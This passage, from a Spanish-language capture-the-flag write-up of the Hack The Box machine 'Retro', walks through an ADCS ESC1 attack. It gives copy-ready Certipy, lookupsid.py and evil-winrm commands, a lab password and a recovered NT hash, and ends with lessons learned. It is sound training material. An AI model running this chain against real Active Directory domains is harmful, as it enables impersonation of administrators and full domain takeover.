

Encontramos que la plantilla `RetroClients` era vulnerable a **ESC1**.

- CA: `retro-DC-CA`
    
- Plantilla vulnerable: `RetroClients`
    
- Vulnerabilidad: `ESC1`


### 5. 📥 Solicitud de certificado suplantando a `Administrator`

Solicitamos un certificado para el usuario `administrator@retro.vl`:

```bash
certipy req -u 'BANKING$@retro.vl' -p NuevaPass123 \
-ca retro-DC-CA -template RetroClients \
-upn administrator@retro.vl -key-size 4096
```



✅ Se genera y guarda el archivo `administrator.pfx`.

### 6. 🔍 Enumerar SIDs del dominio con `lookupsid.py`

Después de identificar que la plantilla `RetroClients` es vulnerable, usamos el script de Impacket `lookupsid.py` para **bruteforcear los SIDs** del dominio y así obtener el SID del usuario `Administrator`, que necesitaremos después:



📌 Localizamos el SID del `Administrator`:

```bash
500: RETRO\Administrator (SidTypeUser)
```

Este SID es **S-1-5-21-2983547755-698260136-4283918172-500**  
y lo usaremos en la siguiente solicitud de certificado.

### 6. 🔁 Solicitud especificando el SID del `Administrator`

Repetimos la solicitud añadiendo el SID del `Administrator`::

```bash
certipy req -u 'BANKING$@retro.vl' -p NuevaPass123 \
-ca retro-DC-CA -template RetroClients \
-upn administrator@retro.vl \
-sid S-1-5-21-2983547755-698260136-4283918172-500 \
-key-size 4096
```


### 7. ✅ Autenticación y obtención de hash

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.129.207.162
```


💥 Obtenemos el NT hash de `Administrator`:

```bash
aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389
```

### 8. 💣 Acceso con `evil-winrm`

Instalamos y ejecutamos:

```bash
sudo gem install evil-winrm
evil-winrm -i dc.retro.vl -u administrator -H 252fac7066d93dd009d4fd2cd0368389
```



### 🏁 Flag de root: 




## 🧠 Conclusión final / Análisis

La máquina **Retro** ha sido un excelente ejercicio de **Active Directory** enfocado principalmente en **ADCS** y la vulnerabilidad **ESC1**. Aquí un resumen de los aprendizajes clave:

---

### ✅ Lo aprendido

- Cómo abusar de plantillas de certificados mal configuradas (ESC1) para suplantar usuarios de alto privilegio como `Administrator`.
    
- El uso de **Certipy** para buscar, identificar y explotar plantillas vulnerables.
    
- La importancia de entender bien los permisos asociados a las plantillas (enroll, client auth, etc.).
    
- Cómo gestionar certificados (`.pfx`) y autenticarse mediante Kerberos.
    
- Uso de herramientas como `lookupsid.py` y `evil-winrm` para obtener acceso final.
    

---

### ⚠️ Dificultades encontradas

- ⚠️ El error de _"Object SID mismatch"_ al generar el certificado sin especificar el SID correcto del usuario.
    
- ⚠️ Inicialmente se omitió el paso de enumerar el SID con `lookupsid.py`, lo que generó confusión.
    
- ⚠️ El usuario `BANKING$`, aunque tenía privilegios, no permitía una shell directa por SMB, lo que obligó a pivotar hacia ADCS.
    

---

### 🧰 Herramientas utilizadas

- 🛠️ `Certipy` (enumeración y explotación ADCS)
    
- 🛠️ `lookupsid.py` (enumeración de SIDs)
    
- 🛠️ `changePassword.py` de Impacket (modificación de contraseña)
    
- 🛠️ `evil-winrm` (acceso remoto con hash)
    
- 🛠️ `netexec` (enumeración rápida de servicios y credenciales)
    

---

### 📌 Lecciones clave

- Nunca subestimar una cuenta de equipo (`$`). Aquí fue la clave para comprometer todo el dominio.
    
- Entender bien el flujo completo de explotación de ADCS puede ser determinante en entornos reales.
    
- Tener una buena gestión de `/etc/hosts` evita errores de resolución en entornos de laboratorio.
    
- Conocer cómo funcionan los SIDs en Active Directory es fundamental para ataques de suplantación.
    

---

### 📖 Guía utilizada

Para apoyar y contrastar algunos pasos técnicos y detalles de explotación, se ha seguido de referencia el write-up de 0xdf:

🔗 [HTB Retro - 0xdf](https://0xdf.gitlab.io/2025/06/24/htb-retro.html#)

